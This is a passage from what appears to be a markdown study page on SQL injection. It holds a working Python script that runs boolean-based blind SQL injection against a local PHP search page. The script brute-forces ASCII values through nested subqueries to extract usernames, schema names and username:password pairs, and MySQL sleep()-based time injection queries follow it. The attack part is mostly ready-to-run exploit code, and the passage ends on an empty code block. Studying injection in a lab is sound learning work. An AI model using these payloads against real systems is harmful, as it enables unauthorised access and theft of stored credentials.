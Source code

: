 ```python
def def_handler(sig, frame):
    print('\n[!] Exiting...\n')
    sys.exit(1)

def makeSQLI():
    # show progess
    progress_bar_1 = log.progress('BRUTE FORCE')
    progress_bar_1.status('Starting brute force')
    time.sleep(2)
    progress_bar_2 = log.progress('Extracted data')

    # extracted data
    matchedString = ''
    for word_position in range(1, 100):
        for character in range(33, 127):
            # construct url injection
            #sqli_url = main_url + '?' + 'id=9 or (select(select ascii(substring(username,%d,1)) from users where id=1)=%d)' % (word_position, character)
            # retrieve usernames by using nested queries
            #sqli_url = main_url + '?' + 'id=9 or (select(select ascii(substring((select group_concat(username) from users),%d,1)) from users where id=1)=%d)' % (word_position, character)
            # retrieve schema names by using nested queries
            #sqli_url = main_url + '?' + 'id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id=1)=%d)' % (word_position, character)
            # retrieve usernames and password separated by ':' by using nested queries
            sqli_url = main_url + '?' + 'id=9 or (select(select ascii(substring((select group_concat(username, 0x3a, password) from users),%d,1)) from users where id=1)=%d)' % (word_position, character)

            progress_bar_1.status(sqli_url)

            # verify status code
            r = requests.get(sqli_url)
            if r.status_code == 200:
                matchedString += chr(character)
                progress_bar_2.status(matchedString)
                break

# ctrl+c
signal.signal(signal.SIGINT, def_handler)

# global variables
main_url = "http://localhost/searchUsers2.php"
characters = string.printable

if __name__ == '__main__':
    makeSQLI()
```
----
### Time-Based
Playing SQLI without seeing any log by using TIME conditions.
```mysql
-- returns -> All usernames
select username from users where id=1 and if(ascii(substring(database(),1,1))=100,sleep(5),0);
-- returns -> Sleep of 5 seconds
select username from users where id=1 and if(ascii(substring(database(),1,1))=99,sleep(5),0);
```
----
Script to retrieve database data by using boolean TIME injection and ascii numbers to match characters.
```python
```